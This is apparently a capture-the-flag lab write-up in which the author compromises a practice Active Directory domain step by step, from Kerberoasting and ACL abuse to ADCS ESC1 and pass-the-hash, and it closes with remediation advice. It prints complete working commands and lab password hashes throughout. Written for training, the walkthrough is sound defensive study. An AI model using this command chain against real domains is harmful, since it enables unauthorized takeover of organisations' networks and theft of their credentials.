




`[ACTIVE DIRECTORY]` `[BLOODHOUND]` `[KERBEROASTING]` `[GENERICALL]` `[GENERICWRITE]` `[TARGETED KERBEROASTING]` `[ADCS]` `[ESC1]` `[PKINIT]` `[PASS-THE-HASH]`



**HackSmarter Lab — by jhaxx**

---

**Platform:** Hack Smarter Labs  
**Difficulty:** Medium  
**Operating System:** Windows Server 2022 Build 20348   
**Topics:** Active Directory, BloodHound, Kerberoasting, GenericAll, GenericWrite, Targeted Kerberoasting, ADCS, ESC1, PKINIT, Pass-The-Hash

---

## Scenario

### Objective / Scope

Arasaka simulates an assumed breach engagement against a Windows Active Directory environment. Starting with valid standard-user credentials for `faraday`, the objective is to trace a realistic attack chain through misconfigured AD object permissions and an abusable ADCS certificate template, escalating from a low-privileged domain user to full Domain Administrator access.

---

<details>
<summary>Summary</summary>

Beginning with the assumed-breach credential for `faraday`, we collect all AD objects into BloodHound via authenticated LDAP ingestion, which immediately surfaces `alt.svc` as a Kerberoastable account. Requesting the TGS and cracking the resulting hash offline yields the password for `alt.svc`. BloodHound then reveals that `alt.svc` holds **GenericAll** over `Yorinobu`, allowing us to force-reset that account's password and authenticate as `Yorinobu`. With WinRM and RDP access confirmed, direct privilege enumeration on the new session yields nothing exploitable, so we return to BloodHound and discover that `Yorinobu` holds **GenericWrite** over `Soulkiller.svc`. We abuse this by writing a temporary SPN and performing a Targeted Kerberoast, cracking the resulting TGS hash to obtain `Soulkiller.svc`'s password. Examining `Soulkiller.svc`'s BloodHound edges reveals **Enroll** rights on the `AI_TAKEOVER` certificate template, which is published to the live CA (`hacksmarter-DC01-CA`). Certipy confirms the template is vulnerable to ESC1 — Enrollee Supplies Subject is enabled, Client Authentication is set, and no approval gate exists. We request a certificate impersonating domain admin `the_emperor` (embedding their SID for strong mapping compliance), then authenticate via PKINIT to recover their NT hash. Pass-the-Hash via Evil-WinRM delivers a Domain Administrator shell and the root flag.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn 10.0.23.214
```

```
# Console Output
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-15 13:14:11Z)
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
|_ssl-date: TLS randomness does not represent time
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
636/tcp   open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hacksmarter.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.hacksmarter.local
3268/tcp  filtered globalcatLDAP
3269/tcp  open     globalcatLDAPssl?
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HACKSMARTER
|   NetBIOS_Domain_Name: HACKSMARTER
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hacksmarter.local
|   DNS_Computer_Name: DC01.hacksmarter.local
|   Product_Version: 10.0.20348
9389/tcp  open     adws?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The fingerprint is unambiguous — this is a Domain Controller. DNS (53), Kerberos (88), LDAP/LDAPS (389/636/3268/3269), SMB (445), kpasswd (464), RDP (3389), and ADWS (9389) together describe the full AD stack. The RDP banner confirms domain name `hacksmarter.local` and hostname `DC01`.

### SMB — Anonymous & Authenticated Enumeration

We test null session and guest access before using the provided credentials:

```bash
nxc smb arasaka.hsm -u "" -p ''
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.23.214     445    DC01    [+] hacksmarter.local\:
```

```bash
nxc smb arasaka.hsm -u guest -p ''
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [-] hacksmarter.local\guest: STATUS_ACCOUNT_DISABLED
```

Null authentication succeeds at the protocol level but share listing is denied:

```bash
nxc smb 10.0.23.214 -u "" -p "" --shares
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Switching to our assumed-breach credential, we enumerate shares and domain users:

```bash
nxc smb hacksmarter.local -u "faraday" -p "hacksmarter123" --shares
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [+] hacksmarter.local\faraday:hacksmarter123
SMB         10.0.23.214     445    DC01    Share           Permissions     Remark
SMB         10.0.23.214     445    DC01    -----           -----------     ------
SMB         10.0.23.214     445    DC01    ADMIN$                          Remote Admin
SMB         10.0.23.214     445    DC01    C$                              Default share
SMB         10.0.23.214     445    DC01    IPC$            READ            Remote IPC
SMB         10.0.23.214     445    DC01    NETLOGON        READ            Logon server share
SMB         10.0.23.214     445    DC01    SYSVOL          READ            Logon server share
```

READ on `IPC$`, `NETLOGON`, and `SYSVOL` is standard for any authenticated domain user — no non-default shares, nothing immediately actionable.

```bash
nxc smb hacksmarter.local -u "faraday" -p "hacksmarter123" --users
```

```
# Console Output
SMB         10.0.23.214     445    DC01    -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.0.23.214     445    DC01    Administrator                 2025-09-18 22:40:20 0       Built-in account for administering the computer/domain
SMB         10.0.23.214     445    DC01    Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.0.23.214     445    DC01    krbtgt                        2025-09-21 02:51:44 0       Key Distribution Center Service Account
SMB         10.0.23.214     445    DC01    Goro                          2025-09-21 15:00:31 0       Loyal to a fault
SMB         10.0.23.214     445    DC01    alt.svc                       2025-09-21 15:07:42 0       Trapped for eternity
SMB         10.0.23.214     445    DC01    Yorinobu                      2025-09-21 15:12:44 0
SMB         10.0.23.214     445    DC01    Hanako                        2025-09-21 14:59:03 0       Waiting at embers
SMB         10.0.23.214     445    DC01    Faraday                       2025-09-21 15:06:45 0
SMB         10.0.23.214     445    DC01    Smasher                       2025-09-21 15:01:20 0
SMB         10.0.23.214     445    DC01    Soulkiller.svc                2025-09-21 15:30:13 0       Certificate managment for soulkiller AI
SMB         10.0.23.214     445    DC01    Hellman                       2025-09-21 15:04:19 0
SMB         10.0.23.214     445    DC01    kei.svc                       2025-09-21 15:05:16 0       Trapped for eternity
SMB         10.0.23.214     445    DC01    Silverhand.svc                2025-09-21 15:03:10 0       Trapped for eternity
SMB         10.0.23.214     445    DC01    Oda                           2025-09-21 15:02:14 0
SMB         10.0.23.214     445    DC01    the_emperor                   2025-11-06 17:19:03 0
```

Fifteen domain accounts. The `.svc` suffix on `alt.svc`, `Soulkiller.svc`, `kei.svc`, and `Silverhand.svc` is a conventional indicator of service accounts — these commonly have SPNs assigned, making them Kerberoastable candidates. The description on `Soulkiller.svc` ("Certificate managment for soulkiller AI") hints at a certificate management role, worth tracking. `the_emperor` carries the most recent password set date, suggesting an active high-value account.

### BloodHound — AD Graph Ingestion

We collect all AD objects into BloodHound for attack path analysis:

```bash
nxc ldap dc01.hacksmarter.local -u faraday -p 'hacksmarter123' --bloodhound -c All --dns-server 10.0.23.214
```

The ingestor authenticates over LDAP and collects users, groups, GPOs, OUs, trusts, ACLs, and session data into JSON files consumable by BloodHound CE.

---

## Lateral Movement

### Kerberoasting — Compromising `alt.svc`

BloodHound flags `alt.svc` as Kerberoastable — it has a Service Principal Name (SPN) registered, which allows any authenticated domain user to request a TGS (service ticket) for that account. The TGS is encrypted with the account's password hash and can be cracked offline without ever contacting the target system again.



```bash
nxc ldap dc01.hacksmarter.local -u faraday -p 'hacksmarter123' --kerberoasting hash.txt
```

```
# Console Output
LDAP        10.0.23.214     389    DC01    [*] Total of records returned 1
LDAP        10.0.23.214     389    DC01    [*] sAMAccountName: alt.svc, memberOf: [], pwdLastSet: 2025-09-21 11:07:42.894050, lastLogon: <never>
LDAP        10.0.23.214     389    DC01    $krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local\alt.svc*$081fbeea9c75063eb2c19734db82003e$df43398324b7b6a46a8bc19b9ccd48dd9efbb500b48a1d2c9981eb17f7bce24ac6496a1c445dd2fdd8fc71b47036acd9d34d44a8717a6b288724d4ea2809f7f748ebabc4acdcd380341efd9ecc9f6bf9c873fc84245a45e8ca31f56bcbbdc0a5856bfd01bc1c9b47f325f2646609c68a44b7f0b9b89179f03a64c2026e0f23823fc9901e9ad1425a0a805f596818e6eba71f1e7800fde948cafad796eda9d21917a4349acdee75a617c82ecdbb1310aae36df2d27fcdad5537eabe57e5c84ad89f7828ffcb2cb994edd7d8da2822dc589dd4aebecbfc7668fbc0ac26543c89c8ad95cd63002b7d3be779b5624af8adedc6d823adecd5bbddcb7aef06c03db864a0e84717d8e9b1e8af4ca086036ab55078799a2ea654c7cf9764f5f59797c9153094025f02af4b6eef198e975b9f34fcca826422613f981ac605c5af441c8bebad0b8cd1bddb5266b6cb455bbf5ff47f24ad08734aa4f454e52671185c208228dcdf9c620b7d385dcbffcdebe9170595f4a89a607cbcf81714a9bc0830c56ce43390d45e544e84d8da12a0c9a0ed295f25884b11dd7d33db615ee4bdacd947b6b2ac415898b7f9754262a7cc5f2c9a26e921d9b464e3f72af7d7c2021dd66ccaf77b353d5d3a36323550c28fea320c99519f53ae8fab1879c79000fd84c156852a24fe2c3fb7f9fa6fe10be6ea62724bbb3351ed3c7a71a7e87c90b55903dd2729097f5a057ac606431c378b15db733103e49ce32de052bc31f1b54a9a323d8b35b2c62273769784277ab88bf225f76b2177a01d5642ef37138ee6b5e1262734792016848c0e973508bfe343560e0423ba86759e86304f3b7d39b30acfe89fd95e9ec814bfd8ab7ea78fb7ec8083cf91cf8f439d7a572dfb734346be25be04d1c011b823261ee2ae44bfdaa47491a289be34455b307e6e2c6fbbbb94bc5ae52667b9dcdeddc69283858b4f32a18cfdff18b881aa7aa006268c134300f45ed4f42a28446438848377f79ed77caaef83c2d17d24bd1c9f5e7e21cbe202b1c28351219ba6fee474666c8407cb08a0893246c8dfcb3f1c5c470606f685012c533c83d3db32f5ca520c17e9ce29d67ecfe16ac80edb78aa53db747ca543fadd80dfabf7a05652a8b3066d2161a07a559a6d5710d616bcba8fd1ac312c3d6d453f9b09d0ede4d2b720ac6b139adbd30acfea985b232ac935815b51ecda8fc53056449fde6069d07d17f30b37c0e9b6707600befc338de578392d5ba72b162ff7535aafe6b763e60e0f166a4ec649c91a82127e9cc0984d407fe7c1d16ec98d48931408a817b898c3a5949ad70a17a8a0efbeed06524f69da26ff8bf3465809c014216cf53759b429fd64b12f3acd6e0ca33c7997e9c3c00c0b5fa30c4f39d5e45c93a2bee8a11e513d56212f325ab57606c3ded5f647060b1625af30ce3260910ab5ff4a6ab60fd4b96380c28ee4230f188f46dc8ce5aba567e7d3ec17346d52eefeb999733791e970e6109e41a0467c6e2cd68e0e1f0eb43686541d
```

Cracking the `$krb5tgs$23` hash with hashcat (mode `13100`) against rockyou recovers the plaintext:

```
# Console Output
alt.svc:<PASSWORD REDACTED>
```

### GenericAll over `Yorinobu` — Forced Password Reset

BloodHound maps a **GenericAll** edge from `alt.svc` to `Yorinobu`. GenericAll is the most permissive ACE in Active Directory — it grants the holder full control over the target object, including the ability to modify arbitrary attributes, reset the account password without knowing the current one, or write an SPN for a targeted Kerberoast.


We choose forced password reset as the simplest path:

```bash
bloodyAD -d hacksmarter.local -u 'alt.svc' -p '<PASSWORD REDACTED>' -H 10.0.23.214 set password Yorinobu '<PASSWORD REDACTED>'
```

```
# Console Output
[+] Password changed successfully!
```

```bash
nxc smb hacksmarter.local -u 'Yorinobu' -p '<PASSWORD REDACTED>'
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [+] hacksmarter.local\Yorinobu:<PASSWORD REDACTED>
```

Credentials validated. BloodHound confirms `Yorinobu` is a member of both **Remote Management Users** and **Remote Desktop Users**, granting WinRM and RDP access:


### WinRM Session — Dead End on `Yorinobu`

```bash
evil-winrm -i 10.0.23.214 -u Yorinobu -p '<PASSWORD REDACTED>'
```

```
# Console Output
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Yorinobu\Documents> whoami
hacksmarter\yorinobu
```

```
*Evil-WinRM* PS C:\Users\Yorinobu\Desktop> whoami /priv
```

```
# Console Output
PRIVILEGE INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

> **Rabbit Hole — WinRM & RDP Manual Enumeration**
>
> With a WinRM shell as `Yorinobu`, we enumerate local privileges and browse the filesystem. `whoami /priv` reveals only three standard, non-exploitable privileges — no `SeImpersonatePrivilege`, `SeBackupPrivilege`, or `SeDebugPrivilege`. Switching to RDP via `xfreerdp` for a GUI walkthrough of the desktop and user profile turns up nothing actionable either. Manual enumeration is exhausted; we pivot back to BloodHound and examine `Yorinobu`'s **Outbound Object Control** edges, which reveals the next step in the chain.


### Targeted Kerberoasting — Compromising `Soulkiller.svc`

BloodHound shows `Yorinobu` holds **GenericWrite** over `Soulkiller.svc`.



**GenericWrite** allows modification of non-protected user attributes, including `servicePrincipalName`. Once an SPN exists on an account, any authenticated user can request a TGS for it — enabling a Targeted Kerberoast against an account that previously had no SPN. The `targetedKerberoast` tool automates the full cycle: write SPN → request TGS → remove SPN, leaving no permanent attribute changes on the target.

```bash
targetedKerberoast -v -d 'hacksmarter.local' -u 'Yorinobu' -p '<PASSWORD REDACTED>' --request-user Soulkiller.svc -o soul-hash.txt
```

```
# Console Output
[*] Starting kerberoast attacks
[*] Attacking user (Soulkiller.svc)
[VERBOSE] SPN added successfully for (Soulkiller.svc)
[+] Printing hash for (Soulkiller.svc)
$krb5tgs$23$*Soulkiller.svc$HACKSMARTER.LOCAL$hacksmarter.local/Soulkiller.svc*$a3a014a58aead5bf0e249c5e9ece8fc6$5cec05689c1ad0c461be0979f5792cf52bf7ad285233e12b06cd912a9c8e56d192b5e18a2ede7e996b47298c25ebb578f9f04dd768e94fd4079467ddab68aea67e15b2a9e93112f7675e251cd60b10dc710a7cb34df2ec5602b96ef8330dbeba2ffc134c0f9b821ed8f71deb5ed1817e8029e3bf0c777cfbdb7222b8ec09e349ec81098f6ee8230193aca40cc6632f0892c6d8ca368bb669f7431768b9a47f383e93f278533a03c9a59d5791a53270c7c24e128a684e1d0feadc1462fae21d27cfb8c1e13622ac149aaf2e9033f356d0b7fdc8b6f1a52de04a532a11e10586a6cfadef1094e76491bbbcd6e5aded2edf02327d05a7062665f6f2529fe578611964e42a8ffb601dfb5f2ac5e2693931c2c7bdfc4c46ff62d7091edf1e12b8ab69a22cb137ef238e75543eec4bfa13977886363dadbe2f362de1b931f67c249dd5e8510243866886231dd6f1817d49d7257f8422cff15cff01693ed6b1b875f7665109d48531e5214a2214ba7843ab3c205dbee47d91881ab0f180648841a7a77b7e0d7ee0210a625f57627c507aa4e66fd8b36c958f3ff3a3b24666a927d863b87546f8b4e13ccf3434606348d53bae77460aa5fb45358df53059c558b290aa0c93a2a63adac1def5f0b08e66b73e5b4c41e4f971a49315982ae9499ec746bb96de45be1f5e76b3d6281b18b108aab5dbb47ba3d5fa2ed5f316a64215d72c3e7b2665a8332390dc2a6e6d00927d8cac86f6019c039f7ca2b116bac21eb7608b6e1cab02638918cbb4f929f7beb3c263b5c3e547999dfc5a993d5885da0b1cbcfde0d5cf78b8cb4f875a4da69aae114efc69204e2bd4dc9793dc2e5f3b6e3cbca596680117211c2de05b11f5f8bb1b4c67176ccffe7f0d45155f71793420eac1c38730f56f9da45b46fb36dd8d8383608ec7edb6921c604e3b5def7f4e92a3a39454d02d8dfd76b0e0ca6f55b10a218b9dae2e1e167b5f886a799c55ec2ee1b98b94611fb85d1e8a1798c33b1d156a436fa5a91323193ddb6356472611a7e6478cedfe4329484b938e3220afd79021bdf38015e78aca7e56a88e449d9a60e439a02162d0e889e9464c7b3beaecd7aa2c28f24f066576c94c5c25ce1f69d25ce16cd6b765e6cfd727ade4ecb742181a0052cc6491f4e4275004f4d362621d24390f0680f67cd8480b88ba4c1a8a79d07fd4b6345cd8e5617164127d82704ff589bb7f90a8e7c9c82cfd044e1ab108db38f61ac626dbf7a602e507abdb42a467c16f2dc1e6708481ba9622657ff572b158aacd2caa356ea7891554b186a73a4037a909a427e04e699cb5d58e548ce5eeb28b38ad50f96b7eedfe6d8230a494e192c35e080604a87bc3708169c8babbda0b40d1e26e5d2827382deb092a2808703f8c97bb512c90e063a5d7a8214ca3b7c402f1bbbdc896cf2e636dc03f41ca6a1ef0614230e5570ee286104a8394edaa4b4a05173032236263cd6b17a24e559d18895084f2a6f74d0249627ab30aac5ac52bbdce901c371e7b96703f9e0982da454d2f2cb1d325795b1ff2bd7ebfb9211e9b7264
[VERBOSE] SPN removed successfully for (Soulkiller.svc)
```

Cracking the hash offline with hashcat (mode `13100`) recovers the plaintext:

```
# Console Output
Soulkiller.svc:<PASSWORD REDACTED>
```

---

## Privilege Escalation

### ADCS ESC1 — `AI_TAKEOVER` Template

Examining `Soulkiller.svc`'s BloodHound edges reveals **Enroll** rights on the `AI_TAKEOVER` certificate template:


The template is **PublishedTo** the live CA (`hacksmarter-DC01-CA`), confirming the full chain is active — a template must be published for the CA to issue certificates from it; an unpublished template is inert even if enrollment rights are correctly configured:


ESC1 is the canonical ADCS misconfiguration leading to direct privilege escalation. The vulnerability arises when a certificate template allows the enrollee to specify an arbitrary identity in the Subject Alternative Name (SAN) while also enabling Client Authentication. This combination allows any principal with enrollment rights to request a certificate asserting any identity in the domain — including Domain Admins — and then authenticate as that identity via Kerberos PKINIT.

#### Step 1 — Enumerate Vulnerable Templates

```bash
certipy find -u 'Soulkiller.svc@hacksmarter.local' -p '<PASSWORD REDACTED>' -dc-ip 10.0.23.214 -text -enabled -hide-admins -vulnerable -stdout
```

**Flag breakdown:**
- `-text` — output as plain text rather than JSON; more readable for manual review
- `-enabled` — only show templates currently enabled on the CA; disabled templates cannot be exploited
- `-hide-admins` — suppress templates where only administrator groups hold enrollment rights
- `-vulnerable` — filter to templates with a detected misconfiguration; removes the 30+ clean templates from output

```
# Console Output
Certificate Templates
  0
    Template Name                       : AI_Takeover
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Authorized Signatures Required      : 0
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HACKSMARTER.LOCAL\Soulkiller.svc
    [+] User Enrollable Principals      : HACKSMARTER.LOCAL\Soulkiller.svc
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

Three conditions confirm ESC1:

- **Enrollee Supplies Subject: True** — the requester can embed any identity in the SAN; the CA does not validate that the requested identity matches the requestor
- **Client Authentication: True** — the issued certificate carries the OID for Kerberos PKINIT authentication, allowing it to authenticate to AD as the claimed identity
- **Requires Manager Approval: False** — the CA issues immediately with no approval gate; no counter-signatures required

Our account (`Soulkiller.svc`) has explicit Enrollment Rights and the template is live on the CA. The full ESC1 chain is confirmed.

#### Step 2 — Retrieve Target SID

We are targeting `the_emperor`, a Domain Admin. BloodHound confirms only two Domain Admins on this domain: `the_emperor` and `Administrator`.



Modern Certipy (v5+) embeds the target's object SID in the certificate's security extension to enforce strong certificate mapping. Without a matching SID, the KDC will reject PKINIT authentication on a patched DC. We query LDAP for the account attributes:

```bash
certipy account -u 'Soulkiller.svc' -p '<PASSWORD REDACTED>' -dc-ip 10.0.23.214 -user 'the_emperor' read
```

```
# Console Output
[*] Reading attributes for 'the_emperor':
    cn                                  : Saburo Arasaka
    distinguishedName                   : CN=Saburo Arasaka,CN=Users,DC=hacksmarter,DC=local
    name                                : Saburo Arasaka
    objectSid                           : S-1-5-21-3154413470-3340737026-2748725799-1601
    sAMAccountName                      : the_emperor
    userPrincipalName                   : the_emperor@hacksmarter.local
```

> 💡 **Author's Note:** The notes truncate the `certipy account` subcommand to `rea`, which is not a valid Certipy subcommand. The correct subcommand is `read`, which queries LDAP and returns the account's full attribute set including its SID. The walkthrough above reflects the corrected invocation.

#### Step 3 — Request a Certificate Impersonating `the_emperor`

```bash
certipy req -u Soulkiller.svc@hacksmarter.local -p '<PASSWORD REDACTED>' \
  -dc-ip 10.0.23.214 \
  -ca hacksmarter-DC01-CA \
  -template AI_Takeover \
  -upn the_emperor@hacksmarter.local \
  -sid 'S-1-5-21-3154413470-3340737026-2748725799-1601'
```

The CA issues the certificate immediately (Request ID 5, no approval required). Certipy saves the certificate and private key to `the_emperor.pfx`.

#### Step 4 — PKINIT Authentication and NT Hash Extraction

```bash
certipy auth -pfx the_emperor.pfx -dc-ip 10.0.23.214
```

```
# Console Output
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'the_emperor@hacksmarter.local'
[*]     SAN URL SID: 'S-1-5-21-3154413470-3340737026-2748725799-1601'
[*]     Security Extension SID: 'S-1-5-21-3154413470-3340737026-2748725799-1601'
[*] Using principal: 'the_emperor@hacksmarter.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'the_emperor.ccache'
[*] Trying to retrieve NT hash for 'the_emperor'
[*] Got hash for 'the_emperor@hacksmarter.local': aad3b435b51404eeaad3b435b51404ee:d87640b0d83dc7f90f5f30bd6789b133
```

Certipy uses the `.pfx` to perform PKINIT — Kerberos pre-authentication using the certificate's private key in place of a password. The DC validates the certificate chain against the CA and issues a TGT for `the_emperor`. Certipy then performs a U2U (User-to-User) Kerberos exchange to extract the NT hash from the Privilege Attribute Certificate (PAC) embedded in the TGT. The result is a valid NT hash that enables Pass-the-Hash authentication without ever knowing the account's plaintext password.

```bash
nxc smb hacksmarter.local -u 'the_emperor' -H 'd87640b0d83dc7f90f5f30bd6789b133'
```

```
# Console Output
SMB         10.0.23.214     445    DC01    [+] hacksmarter.local\the_emperor:d87640b0d83dc7f90f5f30bd6789b133 (Pwn3d!)
```

The `(Pwn3d!)` flag confirms local admin rights — we have Domain Administrator access.

> **Rabbit Hole — ESC1 Against `Administrator`**
>
> We attempt the same certificate request targeting the built-in `Administrator` account. The CA issues the certificate successfully, but `certipy auth` fails during TGT retrieval:
> ```
> [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_KEY_EXPIRED(Password has expired; change password to reset)
> ```
> The built-in Administrator's password has expired and the KDC requires a mandatory password change before issuing any TGT. Without existing DA rights we cannot reset it, making this path a dead end. `the_emperor` is the viable target.

### Domain Compromise — Root Flag

```bash
evil-winrm -i 10.0.23.214 -u 'the_emperor' -H 'd87640b0d83dc7f90f5f30bd6789b133'
```

```
# Console Output
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\the_emperor\Documents> whoami
hacksmarter\the_emperor
```

```
*Evil-WinRM* PS C:\Users\the_emperor\Desktop> type root.txt
```

```
# Console Output
<FLAG REDACTED>
```

---

## Remediation

- **Weak service account password (Kerberoasting):** Service accounts with SPNs must use passwords of at least 25 characters. Prefer Group Managed Service Accounts (gMSA), which rotate 120-character random passwords automatically — a gMSA-managed account cannot be Kerberoasted offline because the password is computationally infeasible to crack.
- **Excessive ACL — GenericAll (`alt.svc` → `Yorinobu`):** Audit and remove over-privileged ACEs using BloodHound or `Get-DomainObjectAcl`. No service account should hold GenericAll over a user account; grant only the minimum necessary delegation via scoped, specific ACEs.
- **GenericWrite enabling Targeted Kerberoasting (`Yorinobu` → `Soulkiller.svc`):** GenericWrite includes write access to `servicePrincipalName`, which is sufficient to introduce a Kerberoastable SPN on any account. Scope write permissions to only the attributes required for legitimate administrative tasks; add sensitive accounts to the **Protected Users** security group to prevent Kerberos delegation abuse.
- **ADCS ESC1 — `AI_TAKEOVER` template:** Disable the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag (`EnrolleeSuppliesSubject`) on all non-CA-managed templates. If arbitrary SAN specification is operationally required, enable **Manager Approval** to gate issuance. Run `certipy find -vulnerable` on a regular cadence as part of the AD security assessment cycle to surface new misconfigurations proactively.
- **Expired Administrator password:** Enforce domain-wide password expiry and ensure built-in Administrator accounts are rotated on a defined schedule. Expired privileged accounts block legitimate emergency access paths and create forensic ambiguity during incident response.
